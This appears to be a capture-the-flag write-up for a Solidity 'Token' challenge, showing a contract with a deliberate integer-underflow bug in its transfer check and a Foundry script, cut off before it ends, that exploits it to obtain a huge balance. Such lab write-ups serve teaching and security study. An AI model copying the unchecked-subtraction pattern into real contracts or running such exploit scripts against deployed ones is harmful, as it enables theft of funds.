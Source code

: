 # #Token

**Challenge :** I need to get your hands on any additional tokens. Preferably a very large amount of tokens.

Initially I was given 20 tokens.

**Contract**
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

In older EVM versions there is no default type checking for `Overflows` and `Underflows` , So they Wrap around.

In my case the Vulnerability lies in this line `require(balances[msg.sender] - _value >= 0);` . If the value is `21`  ,
20-21 = -1 --> uint256 cannot have negative values --> wraps to the max of uint256 . ( that's the huge amount of tokens I am going to get ). And my balance will be max of uint256 and the `to` address gets 21 tokens . And challenge Solved !.

**Here's the Foundry script that solves the challenge**
```Foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import {Token} from "../src/Token.sol";
import "forge-std/console.sol";
import {Script} from "forge-std/Script.sol";

contract TokenSolution is Script {
    function run() public {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address attacker = vm.addr(privateKey);
        console.log("address of attacker: " , attacker);

        vm.startBroadcast(privateKey);
        Token token = Token(0x61a83C282BFF4Ed900a7ad77024633f032285EAC);//instance address
        token.transfer(0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 , 21);//to address
        vm.stopBroadcast();

        uint256 balance = token.balanceOf(attacker);
        console.log("Attacker address: ", attacker);
        console.log("Balance after exploit: ", balance);
```